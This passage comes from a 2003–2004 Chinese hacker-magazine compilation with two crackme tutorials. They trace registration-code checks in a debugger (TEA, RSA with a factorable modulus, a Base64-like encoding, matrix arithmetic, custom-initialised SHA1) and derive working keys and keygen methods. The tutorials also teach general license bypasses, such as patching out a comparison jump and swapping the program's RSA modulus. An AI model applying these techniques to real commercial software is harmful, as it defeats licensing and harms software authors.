# 黑客X档案合订本2003-2004年（下）第二部分

---

# 神秘园

0x1F83D9AB、0x5BE0CD19；光盘中附有我以前编写的一个常用单向散列算法工具，如果你猜测程序中采用了 Hash 运算，可以用它来进行验证，对于其它算法也有类似的工具；初学时尽量不要使用这些工具，虽然它有时可以节省你的时间，但不能提高你的水平！在开始学习时一定要静下心来认真分析每一个接触到的算法，只有自己对这种算法有了透彻的理解，才能在以后的运用中识别它，不要一开始就追求那些“投机取巧”的法门，坚实的基础知识才是关键！

## 注册码的变换算法

注册码算法的关键 CALL 如下：

```assembly
00401AA9.E8 C4F5FFFF  CALL CrackMe2.00401072 ; 将输入的注册码进行 Base64 解码
00401AE3.E8 32120000  CALL CrackMe2.00402D1A ; 将 1-8 字节进行 TEA 加密
00401AEE.E8 EBF7FFFF  CALL CrackMe2.004012DE ; 将 9-24 字节进行 RSA 加密
```

当执行过 00401AE3 这个 CALL 时：0012F800 处的 8 个字节：00 10 83 10 51 87 20 92 变成了 2B 1A CC 7D 14 AA 79 36。下一次跟踪进这个 CALL，看看是采用了什么算法，按 F7 来到下面一行时有个常数：0x61C88647，注意它和 0x9E3779B9 的关系；`00402D5B.81EE 4786C861 SUB ESI,61C88647`，注意 0x61C88647 和 0x9E3779B9 的关系，减法变加法（$0 - 0x9E3779B9 = 0x61C88647$），当然只看到这个常数就说它用了 TEA 算法是太牵强了，仔细分析一下 00402D1A 处的代码，看看它的算法流程，然后才能说它使用了 TEA 算法。

## TEA 算法

TEA(Tiny Encryption Algorithm) 是一种优秀的数据库加密算法，实现简单、速度快，有很强的抗差分分析能力！而且对 64 位数据加密的密钥长达 128 位，安全性相当好。它用一个常数 0x9E3779B9 进行加法运算。

TEA 算法在加、解密过程中会用到密钥，所以在这段代码中可以找到 128 位(16 个字节)的密钥：2A 3D C9 58 6B 21 76 33 09 5D 8F 43 2C F4 73 A9（在找密钥时要注意字节的顺序），用附带的 TEA 算法工具进行验证如图 7。

当执行过 00401AEE 这个 CALL 时：0012F808 处的 16 个字节 8B 30 D3 8F 41 14 93 51 55 97 61 9D 35 DB 7E 39 变成了 0F 00 75 79 97 C0 52 AC 67 74 30 6F F7 60 CC C1，下一次跟踪进去这个 CALL，按 F7 来到下面一行，发现字符串：F4B41058AFD48DC267E9527E551C05B1（模数 n）

```assembly
0040134A.68 E8C84200  PUSH CrackMe2.0042C8E8 ; ASCII "F4B41058AFD48DC267E9527E551C05B1"
```

F7 继续到下面一行，发现字符串：10001（公钥 e）

```assembly
00401358.68 E0C84200  PUSH CrackMe2.0042C8E0 ; ASCII "10001"
```

上面的两个 PUSH 后都有个 CALL，跟踪、步过这两个 CALL 可知，是将其转换成大数运算库的运算格式！然后看下面这些代码：

```assembly
00401365.57        PUSH EDI ; 要生成的大数
00401366.53        PUSH EBX ; 模数 N
00401367.FF75 D4   PUSH DWORD PTR SS:[EBP-2C] ; 公钥
0040136A.FF75 D8   PUSH DWORD PTR SS:[EBP-28] ; 运算的大数
0040136D.E8 8E3D0000 CALL CrackMe2.00405100
```

执行过这个 CALL 时，EDI=00CE87C8 处生成了个大数，后边又把这个大数转换为用于最终比较的字节串！看到这里，我们不能确定，但可以猜测程序使用了 RSA 算法！

## RSA 公开密钥算法

原理：选取两个素数 p 和 q，模数 $n=pq$，随机选取一个公钥 e 与 $(p-1)(q-1)$ 互素，计算私钥 $d=e^{-1} \pmod{(p-1)(q-1)}$，对任意数 $m<n$，加密过程为 $c=m^e \pmod n$，解密过程为 $m=c^d \pmod n$。其中 MOD 为模运算，也称取余运算。

举例：取 $p=47, q=71$ 则 $n=pq=3337$，随机取 $e=79$ 与 $(p-1)(q-1)=46 \times 70=3220$ 互素（没有公因子），计算 $d=79^{-1} \pmod{3220}=1019$。给定一个 $m=197$，加密：$c=197^{79} \pmod{3337}=1276$，解密 $m=1276^{1019} \pmod{3337}=197$（具体运算请参考《应用密码学》），实际中为保证安全性，n 通常很大，编程通常会用到大数运算库！

由程序知：$n=F4B41058AFD48DC267E9527E551C05B1$；公钥 $e=10001$。

利用光盘中的大数运算器用 RSA 算法来验证我们的猜测。

$m=8B30D38F411493515597619D35DB7E39$，利用工具中的 $x^y \pmod z$ 功能进行运算！得 $c=m^e \pmod n = F00757997C052AC6774306FF760CCC1$，根据此结果，可知程序确实采用了 RSA 算法！

对于 RSA 算法求逆，应该先求出私钥 d，利用工具 RSA-TOOL 分解 n 得：$p=FDBEFD11A07121CC3$；$q=F6DFB4E9B64C8C7B$；计算 $d=50F3003556754A2F4FF429E0A42C9FD$。

操作如图 8 所示：在 Modulus(N) 中输入模数，在 Public Exponent(E) 中输入公钥，单击 Factor N 进行分解，几秒钟后解出 p 和 q，单击 Calc. D 计算出私钥 d。

## 四、算法流程分析

通过以上的分析可知算法流程为：

- $U = CRC32(用户名) + CRC32(SHA256(用户名) + MD5(组织名))$
- $R = TEA\_En(B_{1 \sim 8}) + RSA\_En(B_{9 \sim 24})$（其中 $B = Base64\_De(注册码)$）
- $U = R$

则注册码的生成流程为：

- $J = CRC32(用户名) + CRC32(SHA256(用户名) + MD5(组织名))$
- $M = TEA\_De(U_{1 \sim 8}) + RSA\_De(U_{9 \sim 24})$
- 注册码 $= Base64\_En(M)$

## 五、利用工具算出注册码

1. $CRC32(User) = 7779A12D$
2. $CRC32(SHA256(User)) = 5FA046DB$
3. $MD5(Group) = 03937134CEDAB9078BE39A77EE3A48A0$
4. TEA（使用 TEA 算法工具解密如图 9）
5. RSA（使用大数运算器，用私钥参与运算）：
   - $X = MD5(Group)$
   - $Y = d = 50F3003556754A2F4FF429E0A42C9FD$
   - $Z = n = F4B41058AFD48DC267E9527E551C05B1$
   - $C = X^Y \pmod Z = 500E058BED91AFD4F7E31064A2DC6DC7$
6. Base64_En（使用 Base64 编码工具如图 10）

- 用户名：User
- 组织：Group
- 注册码：h5QoEU5NuHpQDgWL7ZGV1PfjEGSi3G3H

注册成功提示如图 11。

## 编写注册机

光盘中含有编译好的 CrackMe2 和 KeyGen2 的可执行文件，完整的 CrackMe2 的 VC++ 源代码，对它进行适当的修改可生成注册机！

没有提供 KeyGen2 源程序的原因是我希望你自己能写一个！

## RSA 算法的补充

由于 RSA 算法只能对小于模数 n 的数进行正确运算，所以当组织名生成的 MD5 散列值不小于 n 时，是无法算出注册码的！对于 RSA 算法，模数 n 越大，分解就越困难！如：$n=7F3BD6E2B6710AF500AF59A7F56B5D1AA3B91B084F98A8ADAFA0BEE78BEE15D1$ 时，在 PIII 800 的机子上分解用了 5 小时 40 分钟，若软件中采用模数 n 足够大，分解工作将会变得十分的令人沮丧（甚至不可能）！

退而求其次，可以考虑一种简单有效的快速替代方案。既然分解 n 非常困难，我们何不想法绕过它？

我们的目的是要让一个软件正常的完成注册任务！而算法只是一个验证的环节，只要这个环节能够正常工作，就不会对程序的正常运行产生影响！基于此种想法，我们可以通过更改算法的参数（如模数 n）来让它正常工作。

利用算法工具产生一个比它稍大一点儿（确保能进行正确的加、解密）的模数：
- $n1 = 7FCFF80160F902F5BEF6E0DFBFA7B5AE54DACF74A2935A2583623A666F35D811$
- $p = D3604EEDF438087612FD139343979F63$
- $q = 9ACB81C6C31EAE4EA05C5C237C82C6FB$

然后利用程序中的公钥：$e=10001$，计算出我们的私钥：
- $d1 = 212DE6CECCD2B7BEFDCCEF0186AA4DD24DAC3DFBAA607A75266C31D9BB965F45$

将程序中的 n 替换成我们的 n1，这样就可以使用我们的私钥 d1 来完成注册码的计算！当然这样运算出来的注册码，只在你修改过的程序中有效！

这种方法和爆破是有区别的：爆破更改程序的流程，哪怕只有一个随机的调用没有考虑到，都不能成功的破解！而更改算法的参数（如模数 n），并不改变程序的流程，无论何时程序调用算法进行判别，都能得到一个正确的结果！当然有些程序可能加了壳，也可能对这些数据进行了保护（如加密存储和自校验）等，但对付这些工作，比起去分解一个大数 n 要容易很多！对于有些采用同类算法且将软件中的关键代码加密的程序，要想办法弄到真的注册码，然后将解密后的关键代码或数据通过上述方法用替换过的参数进行变换存储，也可以实现破解。

虽然这不是个完美的解决方案，但的确是个有效的替代方案，而且工作得很好！

## 后续

在算法破解中，建立在算法知识基础上的合理猜测是必需的，甚至理性与你的知识水平和经验有着直接的关系！这个 CrackMe2 还算有点儿难度，实际上很多程序的算法比这个例子要复杂的多，如果没有足够的算法知识和耐力，很难写出注册机！

密码学算法是一门高深的学问，不可能只用几篇文章就能说清楚，这里只是从破解的角度来阐述一些基本思想，以求抛砖引玉之用！这两部分都采用了标准算法，下一次可能要谈谈那些作者自己设计的算法了，那也不简单，因为还需要一些算法知识之外的东西！（文中所涉及的如下软件光盘已收录：Base64、calcpro、HashCal、RSATool2v17、Tea。另外，光盘中含有编译好的 CrackMe2 和 KeyGen2 的可执行文件，完整的 CrackMe2 的 VC++ 源代码。）

---

## 《聊聊几句》软件破解之破解式 3

清风幻影

**破解对象：** 共享软件的注册码算法
**所需工具：**
- OllyDbg V1.10（用于动态跟踪和代码分析）
- 单向散列算法工具 V1.2（常用的 Hash 计算）
- RSA-Tool 2（RSA 算法工具，分解 n，计算 d 等）
- BigInt Calculator Pro 1.2（大数运算器，RSA 运算）

> IPB（全称是 inside Pandora's Box，简称为 iPB，前身是 OCG（Open Cracking Group））是国内顶尖破解组织之一，尤以擅长算法研究而著称。

这次我们要研究的是该组织一个已公开算法的 CrackMe（传说此程序因为难度问题而被废弃，我等小菜始终不知天高地厚，穷数日之功屡败屡战终将其拿下，如此菜的水平与高手的差距实在令人汗颜）。

此教程由当时零星的破解手记而来，故更像是一个破解记录而非教程，由于此 CrackMe 的算法甚是繁复，所以在写作时，关键地方只能点到为止，太多的细节问题实在是无暇顾及！如果你有兴趣，建议认真研究一下这个程序，相信一定会受益匪浅！

（光盘中附有这个程序的 KeyGenIPB 及其完整的 VC++ 源代码，以供参考）

## 动态跟踪——分析算法

## 1. 下断点，动态跟踪

从网上下载的这个程序是加了壳的，由于我们这里主要阐述算法思路，所以略过了脱壳部分，光盘中有未脱壳和已脱壳的程序，我们直接来分析那个已脱壳的 CrackMeOCG.exe。

运行 OllyDbg，在 Name 中输入：User，在 Code 中输入：1234567890。下断点 SendMessageA，显示 26 个断点已设置。点击“Register”，程序中断在这一行代码：`004086BC. E8 4BBAFFFF CALL <JMP.&USER32.SendMessageA>`。

按 F9 两次，然后按 F8 单步来到如下代码处：

```assembly
00408711  E8 B6A9FFFF   CALL CrackMeO.004030CC
00408716  8D45 F8      LEA EAX,DWORD PTR SS:[EBP-8] ; 输入的用户名
```

可以看到当步过这个 CALL 时，程序获得了我们输入的用户名：User，这时将前面设置的 26 个断点全部删除，并在 00408716 这一行按 F2 下断点，以后就从这里跟踪。

## 2. 分析程序的注册流程

用 F8 单步走，在如下代码处发现程序获得了我们输入的注册码：1234567890

```assembly
0040877B  E8 4CA9FFFF   CALL CrackMeO.004030CC
00408780  8B5D E0      MOV EBX,DWORD PTR SS:[EBP-20]
00408783  8BC3         MOV EAX,EBX ; 输入的注册码 1234567890
```

按 F8 继续走，在下面这一行，出现注册错误提示。

```assembly
00408785  E8 C6F4FFFF   CALL CrackMeO.00407C50 ; 注册失败提示
```

下一次 F7 跟踪进这个 CALL，列出关键代码如下：

```assembly
00407C5D  8036 CC            XOR BYTE PTR DS:[ESI],0CC
00407C60  EB F5              JMP SHORT CrackMeO.00407C57 ; 循环解密 “Failed==> [Code]”
00407C62  58                 POP EAX
00407C63  83F0 00            XOR EAX,0 ; 输入的注册码长度
00407C66  74 67              JE SHORT CrackMeO.00407CCF
00407C68  83F0 20            XOR EAX,20 ; 输入的注册码长度是否为 0x20(32)?
00407C6B  0F84 F7000000      JE CrackMeO.00407D68
...
00407C80  EB F5              JMP SHORT CrackMeO.00407C77 ; 循环解密 “Code! No, Code is wrong! come on, baby!~”
00407C9A  FF15 9CC54000      CALL DWORD PTR DS:[40C59C] ; 提示错误
00407CDB  8036 CC            XOR BYTE PTR DS:[ESI],0CC
00407CDE  EB F5              JMP SHORT CrackMeO.00407CD5 ; 循环解密 “Your Code, Where is your Code???”
00407CF8  FF15 9CC54000      CALL DWORD PTR DS:[40C59C] ; 提示错误
```

通过对这个 CALL 的分析，可知注册码的长度应该是 0x20(32)，所以下次我们输入 32 个字符：“ABCDEFGHIJKLMNOPQRSTUVWXYZ012345”，再次运行，发现在成功的步过 00408785 这个 CALL 而不会提示注册码错误。

按 F8 一直走，发现到 004088CB 这个 CALL 时提示错误，相关代码如下：

```assembly
004088BE  6A 03         PUSH 3
004088C0  8D4D D8      LEA ECX,DWORD PTR SS:[EBP-28] ; 一个地址
004088C3  8D45 DC      LEA EAX,DWORD PTR SS:[EBP-24] ; 一个地址
004088C6  BA 03000000  MOV EDX,3
004088CB  E8 40F5FFFF  CALL CrackMeO.00407E10 ; 提示错误
```

下一次 F7 跟踪进去这个 CALL，看到如下代码：

```assembly
00407E10  55                 PUSH EBP
00407E11  8BEC               MOV EBP,ESP
00407E13  8B00               MOV EAX,DWORD PTR DS:[EAX] ; 把 EAX 地址中的 DWORD 数放入 EAX
00407E15  3301               XOR EAX,DWORD PTR DS:[ECX] ; 把 ECX 地址中的 DWORD 数与 EAX 异或
00407E17  75 0B              JNZ SHORT CrackMeO.00407E24 ; 不为零(不相等)则跳到后边提示错误
00407E19  FF05 ACC54000      INC BYTE PTR DS:[40C5AC] ; 一个全局变量增 1
00407E1F  E9 E1000000        JMP CrackMeO.00407F05 ; 跳到后边退出这个 CALL
```

通过对这个 CALL 的分析可知，在调用这个 CALL 时，EAX 和 ECX 地址中的两个 DWORD 数(4字节)只要相等，就不会提示错误。现在让我们将 00407E17 这一行的跳转 NOP 掉，按 F9 运行，出现提示注册成功的对话框，看来这个 CrackMe 是不防爆破的！

继续跟踪可以发现在如下 6 个地方比较了 6 次后才提示注册成功：

- `004088CB: E8 40F5FFFF    CALL CrackMeO.00407E10`，第 1 次比较
- `00408923: E8 E8F4FFFF    CALL CrackMeO.00407E10`，第 2 次比较
- `0040897C: E8 8FF4FFFF    CALL CrackMeO.00407E10`，第 3 次比较
- `00408AEA: E8 11F3FFFF    CALL CrackMeO.00407E10`，第 4 次比较
- `00408B68: E8 A3F2FFFF    CALL CrackMeO.00407E10`，如第 4 次比较不成功再第 4 次比较 (2)
- `00408BC0: E8 4BF2FFFF    CALL CrackMeO.00407E10`，第 5 次比较```assembly
00408C19 . E8 F2F1FFFF CALL CrackMeO.00407E10 ; 第6次比较
00408C1E . E8 59F1FFFF CALL CrackMeO.00407D7C ; 显示注册成功
```

此时程序的算法思路已有了大致轮廓：用户名和注册码各算出 4×6=24 个字节，然后分 6 次进行比较。由刚才的分析得知我们输入的注册码是 32 个字节，但用于比较的数据是 24 个，看到这儿，你应该首先想到 Base64 编码！

## 3. 分析关键比较代码

我们先不忙去看程序是不是采用了 Base64 编码算法，先来分析一下它的比较过程！由于程序 6 次比较时的代码类似，所以我们只分析第一次比较前的部分代码就行了。

代码分析如下（要确定哪些数据是由用户名算出来的，哪些数据是由注册码算出来的，一个简单的办法，就是更改其中一个，数据没有变化的就是由另一个算出来的）：

```assembly
00408878 . 8D55 DC        LEA EDX,DWORD PTR SS:[EBP-24]
0040887B . B9 03000000    MOV ECX,3
00408880 . 8B45 D4        MOV EAX,DWORD PTR SS:[EBP-2C]
00408883 . E8 88F2FFFF    CALL CrackMeO.00407B10 ; 复制用户名算出来的1-4字节

00408888 . 8D55 D8        LEA EDX,DWORD PTR SS:[EBP-28]
0040888B . B9 03000000    MOV ECX,3
00408890 . 8BC3           MOV EAX,EBX
00408892 . E8 79F2FFFF    CALL CrackMeO.00407B10 ; 复制注册码算出来的1-4字节

00408897 . 6A 0F          PUSH 0F
00408899 . 8D4D 84        LEA ECX,DWORD PTR SS:[EBP-7C] ; 0012FC4C处一串数据
0040889C . 8D45 DC        LEA EAX,DWORD PTR SS:[EBP-24] ; 用户名算出来的1-4字节
0040889F . BA 03000000    MOV EDX,3
004088A4 . E8 63F1FFFF    CALL CrackMeO.00407A0C ; 将用户名算出来的1-4字节进行变换

004088A9 . 6A 0F          PUSH 0F
004088AB . 8D8D 74FFFFFF  LEA ECX,DWORD PTR SS:[EBP-8C] ; 0012FC3C处一串数据
004088B1 . 8D45 D8        LEA EAX,DWORD PTR SS:[EBP-28] ; 注册码算出来的1-4字节
004088B4 . BA 03000000    MOV EDX,3
004088B9 . E8 4EF1FFFF    CALL CrackMeO.00407A0C ; 将注册码算出来的1-4字节进行变换
004088BE . 6A 03          PUSH 3

00408BC0 . 8D4D D8        LEA ECX,DWORD PTR SS:[EBP-28] ; 注册码算出的1-4字节
00408BC3 . 8D45 DC        LEA EAX,DWORD PTR SS:[EBP-24] ; 用户名算出的1-4字节
00408BC6 . BA 03000000    MOV EDX,3
00408BCB . E8 40F3FFFF    CALL CrackMeO.00407E10 ; 比较这4个字节是否相等
```

跟踪过 004088A4 这个 CALL，仔细分析，参考 Code.txt 中的代码，发现这个 CALL 完成一个 1×4 矩阵（行向量）和一个 4×4 矩阵相乘，并对每个分量对 256 取余，以能放入一个字节中，这样结果还是一个 1×4 矩阵（行向量）。对用户名和注册码的数据进行矩阵相乘时分别使用了两个不同的矩阵，这两处数据如下（随用户名变化）：

```
0012FC3C B2 06 40 EA 50 DA 7F 21 14 88 4C 14 52 18 86 54
0012FC4C 00 00 3B 0D 3B 0D 3A 6C 47 AF 98 CE 84 1C 36 AE 71 4D
```

来到这里，我把《矩阵论》从箱子底下翻出来温习了一遍。得出此处的数学模型如下：设有两个 1×4 矩阵（行向量）X（用户名得出）和 Y（注册码得出），两个 4×4 矩阵 A 和 B（由用户名得出），令 XA=YB，其中 A、B、X 已知，求 Y（且在矩阵相乘时还进行了取余）。

- 1. B 矩阵是否可逆？
- 2. 如果进行矩阵求逆，不可避免会出现小数，这样算出来的结果再取整，并对 256 取余能否保证等式成立？
- 3. 由于进行了取余运算，那么这个解不是唯一的，用什么方法能将这所有的解都求出来？

一开始我想到的是对矩阵进行求逆，即 XA=YB => Y=XAB'（B' 为 B 的逆矩阵），但是这个想法和矩阵相乘时用到的取余运算使我的想法陷入了困境。

因为还没有跟踪这个矩阵是如何得来，我试着改变用户名，并用 Matlab 对矩阵 B 进行求逆，运气似乎不错，得到的几个矩阵都是可逆的。但麻烦的是当我继续验证第 2 个问题时，却没有得到正确的结果（我没有静下心来去仔细分析错误的原因）。

我看着第 3 个问题，想到了穷举法！由于只需做 256 的 4 次方次矩阵运算，运算并不太大，于是我编了一个穷举的程序，在不到 10 分钟的时间内，穷举出了 16 的 6 次方个结果。把这些数据代进去，都可以满足等式，在完成了穷举的工作后（发现这些穷举出的数据有很好的规律性），我猜想是不是有什么简便的方法能求出其中的一个解呢？后来的不懈努力证实了我这一想法，并写出了一个快速的 KeyGen。

程序的一般注册流程都是这样的：用户名 => CCode <=> 注册码。由于对用户名的变换一般不可逆，所以我一开始的思路是想找出注册码变换算法的逆变换，利用程序从用户名算出来的数据 CCode 求出注册码。

## 4. 分析注册码的变换算法

下面从判断注册码的长度是否等于 32 后边的这段代码开始分析（具体代码请参见 CODE.TXT，限于篇幅，不再罗列）：

```assembly
0040878F . E8 84FDFFFF    CALL CrackMeO.00408518 ; 将注册码的每个字节变为0-63
```

通过对 00408518 处代码的分析，可知这个 CALL 将注册码的每个字节变为 0-63，即：

```
00C904F0 41 42 43 44 45 46 47 48 49 4A 4B 4C 4D 4F 50
00C90500 51 52 53 54 55 56 57 58 59 5A 30 31 32 33 34 35
```

变换为（这里的地址是动态的，所以每次都可能不一样）：

```
00C904F0 0C 0D 0E 0F 10 11 12 13 14 15 16 17 18 19 1A 1B
00C90500 1C 1D 1E 1F 20 21 22 23 24 25 01 02 03 04 05 06
```

对这些数据，下内存断点，然后会发现下面这个 CALL 将这 32 个字节转换为 24 个字节（具体代码参见 CODE.TXT），但中间一些值的处理方式与 Base64 算法有很大不同。

```assembly
00408867 . E8 FCFAFFFF    CALL CrackMeO.00408368 ; 32字节变为24字节
```

经过这个 CALL 后，上面的 32 个字节数据变化为如下 24 个字节数据。

```
0012FBB8 41 8F D3 30 56 51 93 14 6B 19 76 59 82 9F D7 71
0012FBC8 51 92 A3 18 16 C4 20 04
```

通过对后边的 00408890 处开始的代码进行分析，发现这里前的 12 个字节就是进行前三次比较的数据，即：对于 XA=YB，这些数据就是 Y，这样只要用我们穷举出来的 Y 对上面的过程求逆（12 个字节→16 个字节），即可求出用于前 3 次比较的前半部分注册码。

# 神秘园

数据如下（Z=XA，Y 是由穷举出来的结果中选出的一个解）：

- A = `00 00 3B 0D 3A 6C 47 AF 98 CE 84 1C 36 AE 71 4D`
- B = `B2 06 40 EA 50 DA 7F 21 14 88 4C 14 52 18 86 54`
- X = `C5 18 0E 00 77 79 A1 2D CE 76 6B 97`
- Z = `C0 64 47 F1 80 30 DD E7 1E 84 07 3F`
- Y = `1D 7B 3A 37 15 25 2F 4D 2F 59 0C 18`

将 Y 的这 12 个字节用逆变换（具体算法，请参见 KeyGenIPB 的源程序），得到注册码的前半部分：Bndv6loj8F5+IN=L，现应用这 16 个字符代替刚才输入的注册码的前 16 个字符，再次跟踪可以发现，前面三次比较时生成的数据相等了！

下面继续分析后 12 个字节。当通过 00408AA2 这个 CALL 时，后 12 个字节由 `0012FC94 16 C4 20 04 51 92 A3 18 82 9F D7 71` 变换为了 `0012FC94 09 EA 88 4A 65 1A D4 99 22 DE 86 5A`，代码如下：

```assembly
00408A95. 51           PUSH ECX ; 7862C97B
00408A96. 50           PUSH EAX ; B94FB94B
00408A97. 57           PUSH EDI ; 94CE1654
00408A98. 52           PUSH EDX ; E2C36BC1
00408A99. 8D4D CC      LEA ECX,DWORD PTR SS:[EBP-34] ; 0012FC94. 16 C4 20 04
00408A9C. 8D45 D4      LEA EAX,DWORD PTR SS:[EBP-2C] ; 0012FC9C. 82 9F D7 71
00408A9F. 8D55 D0      LEA EDX,DWORD PTR SS:[EBP-30] ; 0012FC98. 51 92 A3 18
00408AA2. E8 09DCFFFF CALL CrackMeO.00406B80
```

对注册码生成的后 12 个字节进行了变换到这里，我试着跟踪进去，但里边的代码却让我眼花缭乱（后将这个 CALL 的所有代码打印出来仔细研究了数日）。没有放弃努力的原因是基于它一定可逆的想法：由于是对注册码进行变换，这个 CALL 一定存在逆算法！

当我试着改变用户名时，发现前面 4 个参数也随之变化，但它们都来自一段固定的内存区域（004092CD），通过分析前面的部分代码发现，前边产生了一个数（0—15），然后根据这个数进行偏移来选用相应的 16 字节作为参数，这些数据看 CODE.TXT。

为了弄清这是什么算法，我将要加密的注册码的数据全部用 0 代替，然后试着改变用户名，使前边 4 个参数发生变化，但发现加密结果仍然是一串 0，这给了我不少有用的信息！因为如果采用的是安全性基于密钥的对称算法的话，似乎没有哪个算法是这样：即改变密钥对 0 串加密，结果仍为 0 串！

由于前边这个程序使用了矩阵运算进行判别，我首先猜想这个 CALL 是不是一个什么矩阵的算法（因为一个矩阵和 0 矩阵相乘还是 0）？

但是通过分析中间的代码，发现这个想法是错误的。因为它虽然前面有 4 个参数，但跟进去时发现第一个参数是用来作循环计数用的。而且中间没有发现矩阵运算的特征，倒是发现不少的移位、异或等运算（当时也曾猜想 RSA 算法，因为 RSA 算法对 0 运算还是 0，但由于当时感觉此程序的调用方法不像高级语言进行编写，一念之差，使分析工作陷入困境）。经过艰苦不懈的分析工作，我发现这个 CALL 里的循环似乎在进行指数运算和求余，这让我又重新想起了 RSA 算法，我把前面 4 个参数用 RSA 进行门验证，N 能够分解并能求出 D 令人精神一振！如图 6（之后又对其它 15 组数据进行了相同的操作），然后用这个 N 和 E 对 71D79F8218A392510420C416（注意这里的字节顺序！）进行加密，结果为 5A86DE2299D41A654A88EA09！刚好和上面变换的数据相同，到此才彻底弄清楚了注册码的变换算法。由于要进行 RSA 算法，故需保证被加密的 12 个字节（12×8=96 位）应小于模数 N，所以程序去掉了最高位，保留了 95 位。

在进行第 4 次比较（少了最高位）时，如果不正确，就会试图补上最高位再作一次比较！作者此处考虑的相当严谨。

注册码（32 字节）<= 类似 Base64 的编码、解码 => R（24 字节），R 的前 12 个字节直接通过矩阵运算进行比较，R 的后 12 个字节经过 RSA 加密后再通过矩阵运算进行比较。

我们用 C_64 代表这种类似 Base64 的编码算法，则注册码的变换算法流程如下：

```
C_64_De(注册码(32)) = R(1-24) => R(1-12) + RSA_EN(R(13-24)) = Y(1-24)
```

从穷举出来的数据中挑选一个解“Y（1-24）”，则注册码的算法流程如下：

```
Y(1-24) => Y(1-12) + RSA_DE(Y(13-24)) = R(1-24) => C_64_En(Y(1-24)) = 注册码(32)
```

## 5. 穷举法求注册码

根据上边的注册码算法流程，我写了个根据动态跟踪时得出的相关数据通过穷举算出注册码的程序 KGOCG.EXE，由于注册码的数量为 16 的 6 次方个（实在太多），所以完成穷举后，按照用户指定的个数随机生成注册码。运行情况如图 7，得出注册码如下（参见 SN.TXT）：

```
Name=User
Code=hncvbQpj8F5AINfLOsO+Cvkj+ZnbKLeY
```

由于此程序在进行运算时用到了 C 盘和系统所在盘的序列号以及操作系统的版本号，所以在不同的机器上同一个 Name 算出的 Code 是不同的。

到这里，工作似乎已经完成了！但这个 KGOCG.EXE 可不能算是注册机，总不能每次都让用户自己去内存中找这些数据吧！

之后，我想将这个程序改造成一个注册机，这样就不用去分析由用户名是如何算出中间的比较数据的代码了，这需要用逆向工程（逆向工程部分我想以后写到破剑式续中，因为这一式如果仅仅是找个明文注册码的话实在不够威力）。这里主要是研究算法，故略去逆向工程这部分内容。

根据上面的分析可知，下面的工作是要找出矩阵 A 和 B、行向量 X 以及用于确定使用哪组 RSA 的 N 和 E 的索引数的算法流程。

## 6. 用户名的变换算法

这需要从 00408711 这个 CALL 后进行跟踪，因为这里程序获得我们输入的用户名，后边就要对它进行变换！

```assembly
0040879E. E8 C5E9FFFF    CALL CrackMeO.00407168 ; 用户名MD5散列
```

经过这个 CALL 后，内存 0012FC74 处的数据如下：

```
0012FC74 8F 9B FE 9D 13 45 23 7C B3 B2 B2 05 86 4D A0 75
```

看到这些数据，我就知道这个 CALL 是个 MD5 单向散列算法，每次破解都用 “User” 作为用户名，所以 “User” 的常用散列值基本上能够识别出来！

建议把你惯用的用户名的常用 hash 算法散列值、硬盘物理 ID、网卡 MAC 地址、各个盘符序列号、操作系统版本/序列号、主板/显卡/CPU 信息等可能被软件用来进行注册计算的常用数据打印出来，贴到显眼的地方，这样在跟踪程序时能帮你快速确定一些数据的来历。

其实在前边的运算中出现了 `C5 18 0E 00 77 79 A1 2D`，如果你有这样一张表的话，马上可以知道 `C5 18 0E 00` 是 User 的 XOR32 值，`77 79 A1 2D` 是 User 的 CRC32 值！所以有些人跟踪一道数据时变化，就能得出程序的很多算法信息。

按 F8 继续跟踪，发现经过 004087E6 这个 CALL 后生成了 `C5 18 0E 00` 四个字节，这是个 XOR32 算法，你可以按 F7 跟进去看一下，比较简单。

```assembly
004087E6. E8 21F7FFFF    CALL CrackMeO.00407F0C ; XOR32
```

按 F8 继续跟踪，发现经过 004087FB 这个 CALL 后生成了 `77 79 A1 2D` 四个字节，这是 CRC32 算法，可用常用单向散列算法工具进行验证。

```assembly
004087FB. E8 34F7FFFF    CALL CrackMeO.00407F34 ; CRC32
```

按 F8 继续跟踪，可以看到程序将这两处数据转换成 16 进制字符串，然后进行拼接得出 `000E18C52DA17977`，最后在 00408854 处调用 CRC32 进行运算得出 `CE 76 6B 97`。

```assembly
00408854. E8 DBF6FFFF    CALL CrackMeO.00407F34 ; CRC32
```

这三个数据就是用来和矩阵 A 相乘进行比较的中间数据。这样可得：

```
X(1-12) = XOR32(User) + CRC32(User) + CRC32(STR(XOR32(User) + CRC32(User)))
```

下面继续进行后 12 个字节的跟踪，在我的机器上数据如下（Z=XA）：

- A 矩阵 = `00 00 3B 0D 3A 6C 47 AF 98 CE 84 1C 36 AE 71 4D`
- X(13-24) = `AB E8 C9 59 A7 4B 7C 65 5C EE 4F D6`
- Z(13-24) = `AE 1C AE 08 EC 12 CF B1 F8 6E 68 60`

在跟踪时要注意数据的变化，看程序是如何生成了 X 的数据。请仔细分析一下如下代码：

```assembly
00408981. 8B47 0C        MOV EAX,DWORD PTR DS:[EDI+C] ; 用户名MD5码的13-16字节
00408984. 8947 10        MOV DWORD PTR DS:[EDI+10],EAX
00408987. 8B47 08        MOV EAX,DWORD PTR DS:[EDI+8] ; 用户名MD5码的9-12字节
0040898A. 8947 0C        MOV DWORD PTR DS:[EDI+C],EAX
0040898D. A1 94C54000    MOV EAX,DWORD PTR DS:[40C594] ; 系统所在盘的序列号 08AD4382
00408992. 8947 08        MOV DWORD PTR DS:[EDI+8],EAX
00408995. A1 90C54000    MOV EAX,DWORD PTR DS:[40C590] ; C盘的序列号 08AD4382
0040899A. 8947 04        MOV DWORD PTR DS:[EDI+4],EAX ; 这两处序列号，可在命令行下 dir 列出
0040899D. A1 8CC54000    MOV EAX,DWORD PTR DS:[40C58C] ; 19791126, 或19791007
004089A2. 8907           MOV DWORD PTR DS:[EDI],EAX ; 由操作系统版本号决定
004089A4. 8BC7           MOV EAX,EDI ; 存放上述5个数的地址 0012FC74
004089A6. 8B4D FC        MOV ECX,DWORD PTR SS:[EBP-4] ; 用户名 User
004089A9. BA 04000000    MOV EDX,4
004089AE. E8 1DCEFFFF    CALL CrackMeO.004057D0 ; SHA1算法
```

这里的代码处有 3 个全局变量，要跟踪它们的来历下内存断点即可，具体细节不再赘述。004089AE 这个 CALL 是 SHA1 算法，但是它没有使用 SHA1 的初始化数据，而是用上面的 5 个数据来对 SHA1 进行初始化，所以结果就不是标准的 SHA1 算法的结果。

确定这里是 SHA1 算法比较简单，因为在如下代码处发现 SHA1 的初始化数据。

```assembly
0040581B. C703 01234567  MOV DWORD PTR DS:[EBX],67452301
